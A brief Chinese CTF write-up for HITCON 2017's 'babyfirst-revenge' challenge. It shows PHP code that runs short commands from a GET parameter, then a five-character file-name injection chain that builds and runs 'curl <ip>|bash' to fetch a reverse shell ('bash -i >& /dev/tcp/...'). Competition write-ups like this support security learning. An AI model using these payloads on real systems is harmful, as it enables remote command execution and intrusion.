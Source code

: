 # 前言

HITCON2017学习记录



# babyfirst-revenge

## 预期解

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

创建一个IP沙盒，在这个沙盒中执行`exec()`，这里限制了shell只能是5个字符，所以将shell写到文件名，然后使用`\`进行拼接



主要思路就是在vps上的index.html挂一个反弹shell的命令

```
bash -i >& /dev/tcp/vps的ip/8888 0>&1
```

然后我们监听8888端口。

这里的`exec()`要执行的是

`curl vps的ip|bash`

用上面的方法，我们可以把命令写入一个bash脚本中，之后运行该bash脚本。

```php
ls -t>g

>ls\\
ls>_
>\ \\
>-t\\
>\>g
ls>>_

curl 106.15.250.162|bash
>sh
>ba\\
>\|\\
>2\\
>16\\
>0.\\
>25\\
>5.\\
>1\\
>6.\\
>10\\
>\ \\
>rl\\
>cu\\

```
